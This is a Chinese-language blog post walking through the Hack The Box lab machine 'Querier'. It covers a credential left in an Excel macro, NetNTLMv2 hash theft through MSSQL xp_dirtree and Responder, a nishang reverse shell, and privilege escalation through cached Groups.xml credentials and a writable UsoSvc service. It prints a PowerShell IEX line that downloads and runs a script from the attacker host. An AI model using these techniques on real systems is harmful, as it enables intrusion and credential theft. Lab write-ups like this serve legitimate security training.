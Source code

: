 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tvQH9XuOPVDGJDIeZjDbhA)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **83** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/0cJxJdTeNgYmBxrqznNuicqBJXAnca9Sia5lw88xHj4O1j9nO8s5O484VI3HTMkaickZrAdRiboQOuYltpTibrXTn7Q/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/175

靶机难度：中级（5.0/10）

靶机发布日期：2019 年 5 月 29 日

靶机描述：

Querier is a medium difficulty Windows box which has an Excel spreadsheet in a world-readable file share. The spreadsheet has macros, which connect to MSSQL server running on the box. The SQL server can be used to request a file through which NetNTLMv2 hashes can be leaked and cracked to recover the plaintext password. After logging in, PowerUp can be used to find Administrator credentials in a locally cached group policy file.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/KzuCxpxs7oCB12IBPzSEmAib10AOjpmlWVZL5v1vUictokJWicLLBhqOXU7BPEGlda1qVTXElPiabEJqY3xXaqId6Q/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/ru93nXbREC3lsblTT6unZTCoWcPia8D84uaTauv8WPKZPQAePE6Emc28HfL5UqaUs7ia4J1pib3JRW5sS6TnHViazA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLBkHUofK5EmyM7VSxibc4HWW74tQKbbGfHc0s4icxtHobOKgls7iapMKdA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.125....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLFNGna0gXla0Bt6GR4y062kKNVbQpIe1I6V6NeHOKib5s3uQ7CzYxPIQ/640?wx_fmt=png)

在其他常见端口之间有 SMB 和 WinRM，MS-sql 也正在运行，这确认该域是 HTB.LOCAL...（和昨天那台靶机差不多？）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLqsXwONoYx8NQQwNz4Esvs6RicDuDmj7gIwjgX9iavJfVqOgZQxPNelUg/640?wx_fmt=png)

查看运行了哪些共享... 看到了 Reports 共享... 进去看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLb4oONuEm5OxYDPvNUhDiaO6hoyIb2a3SvMzWfX4x8SOothnaicoAme3w/640?wx_fmt=png)

在 reports 共享发现了 "Currency Volume Report.xlsm" 文件... 下载到本地发现这好像不是 xlsm 文件... 解压发现存在很多子文件... 开始一个一个查看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLfaxakNmQ3CH7FR8ZXJoibkdN0P5QicLGDtfbIicI4ZM25PNcDDpFMQsaw/640?wx_fmt=png)

查看 vbaProject.bin，在顶部附近找到带有凭据的连接字符串...

Uid=reporting;Pwd=PcwTWTHRwryjc$c6.... 这是 MSsql 的 ID 和密匙...

可以使用 impacket mssqlclient 模块连接到该靶机的 MSSQL 下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLGC4W2Z2rWws8dysxB0CAgD4T4MySyeLAq72fntEYHJLDATZ2Q5G4Ug/640?wx_fmt=png)

```
mssqlclient.py -windows-auth reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```

利用 mssqlclient 模块进来了...

发现不是 SA 用户... 无权限使用一些常规命令... 查看了用户情况，果然是无权限的...

虽然无法使用 xp_cmdshell 执行命令，但可以通过使用 xp_dirtree 或 xp_fileexist 来窃取 SQL 服务帐户的哈希...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLbfFJGs9CqyZHybcWajkD7n2ycz8RlNibNkS9n5NMTW47ljLd4RibsWLQ/640?wx_fmt=png)

开启 responder，然后 xp_dirtree 窃取了 SQL 服务的哈希值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLDyEYSzzkWM2FWqJJvYucJP2oiaCm0fyUAkKc5uWBfpHLf8SS6p6Is4A/640?wx_fmt=png)

通过 john 破解哈希值.. 获得了密码...ID 是 mssql-svc

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLAvzOwGkFTj1thCaj6jjXhwyLUgaafDcC74HhiaOVZdbnicibVnibI4jxnA/640?wx_fmt=png)

通过 ID 和密匙进来了...

查询后，返回 true，可以使用 xp_cmdshell

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLV3VRR4dVuxm1ibib4xmibhOCwZUqNXJH6UQFgtZpvW84ibvgXAI5zJPC5g/640?wx_fmt=png)

这里可以开始提权了... 利用 nishang 模块里的 Invoke-PowerShellTcp 即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLL6v28q1mCxvbxtCgSrVMqPmfDPCrVRtkWLUfSShu9h2sYsGXyTnhsQ/640?wx_fmt=png)

成功获得反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLd4eYTmXVm94V6OyIZUOWyj7lic0KGmib0qCdelqF6gosdoWZm1JUy9EQ/640?wx_fmt=png)

以为有坑... 很正常的就获得了 user 信息...（和 NO80 有关系吧，这里的方法和前面的一样~~）

```
git clone https://github.com/PowerShellMafia/PowerSploit.git
```

PowerSploit 模块功能非常强大... 我试过绕过防病毒模块... 提权

这里准备利用 PowerUp.ps1 放到靶机服务器上进行扫描枚举...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPL8EsUm7EW2vb5KkoEvFPXvKHp3A78rfqXFqBsUIrCn0Qsibz03cJapPg/640?wx_fmt=png)

已准备好...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLj5mAyhIDicofaecbh3a7jWD7Xwfib6cicCV0sRQBkCduoYbHCwaqvqKPw/640?wx_fmt=png)

```
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.10/PowerUp.ps1'); Invoke-AllChecks
```

开始枚举... 这里发现有点问题，重新执行了下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLsrdCUkLXRf5jaRZbCgbtmkIhIfyCXxEYRhpjleFcleoDaADSibnWfjw/640?wx_fmt=png)

看到管理员凭据已缓存在 Groups.xml 文件中...

这里根据昨天朋友圈小伙伴的提醒，因为 445 端口开放着，我这里就使用了 psexec.py 进行获取 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLCEqia0CWOQHhjvMUopicfMsEhURaE0WtxicH9qcCcmRFkRBfPcVKhibOlQ/640?wx_fmt=png)

嗯，成功获得了 system 管理员权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLZbFgicfanq6Xibe00n3QdQIqBz7sJibJVnANjUcWB1E0qdUicDcqe5eaJA/640?wx_fmt=png)

成功获得了 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/FRKzajjicJGp8Ljeuvd1c8haJLU6BUSTlxUsMxprmqibiaPIs72ByzBEZJuxntmmia0SMtaShx0Yzsa3B8bUS3JAibA/640?wx_fmt=png)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/qI9LT8kbvPP6zO2T1icrJiaBGOgdK9EzicmwyCwyYDS6XtvhmdO4ecfEAejEde70EolLMuPL6oHFTfnBgfylpicHug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLsicqxw46nfBbtO5QQUbQicp45OjZTmIajiaAUZku2Rg3Dqw2q6m27JSLw/640?wx_fmt=png)

Invoke-AllChecks 输出中，还可以看到有权写入 UsoSvc 服务...true

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLVDA7mGuMtaM5wL0ulKKkfW3cyCYaibnEcjk6sGTnuiaX3HPxBShMP5icg/640?wx_fmt=png)

sc.exe qc UsoSvc 检查服务状态...

这里将修改服务的二进制路径... 注入 NC 服务，然后提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLIbic8icEr7WibSuZY1zsb2licNib2yp0qibJkEZyeYIbwc3gaPSeUXeDicLvw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLUicjjNHwmKDWhOfWxiaEO6icr5iaUenScsfdz19Jia8cSzWx3fI5LV8cq6w/640?wx_fmt=png)

可以看到，获得了管理员权限... 但是 10 秒左右就断开了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPXv5Rv4ialrBicEic7icnqicwPLk65TVAmGAw4YHMRPRYytYWFvMslmTI8Itvjtys3fWbic2FmdTA0cLIg/640?wx_fmt=png)

检查了会，重启服务后... 在开启...

![](https://mmbiz.qpic.cn/sz_mmbiz_png/0cJxJdTeNgYmBxrqznNuicqBJXAnca9Sia5lw88xHj4O1j9nO8s5O484VI3HTMkaickZrAdRiboQOuYltpTibrXTn7Q/640?wx_fmt=png)

还是存在 10~20 秒自动中断的现象，但是几秒足够获得 root 信息了... 这不影响，确确实实存在该问题！！

这里还可以利用文本形式写入 UsoSvc 服务中，直接读取任何管理员底层的信息... 在谈就到骇客了，谈远了

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成这台中等的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/KzuCxpxs7oCB12IBPzSEmAib10AOjpmlWVZL5v1vUictokJWicLLBhqOXU7BPEGlda1qVTXElPiabEJqY3xXaqId6Q/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)